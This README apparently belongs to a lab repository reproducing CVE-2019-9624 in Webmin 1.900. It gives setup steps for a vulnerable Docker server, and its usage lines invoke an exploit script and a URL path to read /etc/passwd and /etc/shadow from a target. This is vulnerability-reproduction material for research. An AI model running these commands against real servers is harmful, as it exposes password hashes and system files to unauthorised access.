 # CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        docker build -t cve-2019-9624 . 
        docker run -p 10000:10000 -it cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```    
* Client
```shell script
python3 exploit.py --host SERVER_IP --port 10000 -u test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
Examples of use:
* <https://SERVER-IP:10000/file/show.cgi/etc/shadow>
* `python3 exploit.py --host <SERVER-IP> --port 10000 -u test --pass qwerty --file "/etc/passwd"`
